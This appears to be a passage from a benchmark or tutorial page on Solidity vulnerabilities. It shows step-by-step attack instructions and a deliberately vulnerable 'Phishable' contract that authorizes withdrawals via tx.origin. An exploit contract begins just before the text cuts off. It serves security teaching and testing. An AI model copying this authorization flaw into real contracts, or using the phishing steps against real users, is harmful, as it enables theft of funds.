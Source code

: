 

1. deploy contract `Ox514ebff829ac5d3007a064ab6c3f3ec53897fc05` by victim EOA `0x5B38Da6a701c568545dCfcB03FcB875f56beddC4` with argument `0x5B38Da6a701c568545dCfcB03FcB875f56beddC4`, then get contract address `0x8431717927C4a3343bCf1626e7B5B1D31E240406` [change]
2. call fallback function by victim EOA `0x5B38Da6a701c568545dCfcB03FcB875f56beddC4` with 1 ether
3. deploy contract `Attacker` by attacker EOA `0xAb8483F64d9C6d1EcF9b849Ae677dD3315835cb2`
4. call function `attack` by victim EOA `0x5B38Da6a701c568545dCfcB03FcB875f56beddC4` with argument `0x8431717927C4a3343bCf1626e7B5B1D31E240406`(victim contract address)[change]
5. attacker EOA `0xAb8483F64d9C6d1EcF9b849Ae677dD3315835cb2` steals 1 ether

### 4. phishable_variant_1&variantWithdrawAll

#### Source Code

```javascript
/*
 * @source: https://github.com/sigp/solidity-security-blog
 * @author: -
 * @vulnerable_at_lines: 20
 */

 pragma solidity ^0.4.22;

 contract Phishable {
    address public variantAddress;

    constructor (address _owner) {
        variantAddress = _owner;
    }

    function () public payable {} // collect ether

    function variantWithdrawAll(address _recipient) public {
        // <yes> <report> ACCESS_CONTROL
        require(tx.origin == variantAddress);
        _recipient.transfer(this.balance);
    }
}

```

#### Exploit (payable)

```javascript
 pragma solidity ^0.4.22;

 contract Phishable {
    address public variantAddress;

    constructor (address _owner) {
        variantAddress = _owner;
    }

    function () public payable {} // collect ether

    function variantWithdrawAll(address _recipient) public {
        // <yes> <report> ACCESS_CONTROL
        require(tx.origin == variantAddress);
        _recipient.transfer(this.balance);
    }
}

contract Attacker {
    address public attacker;
    constructor (){
```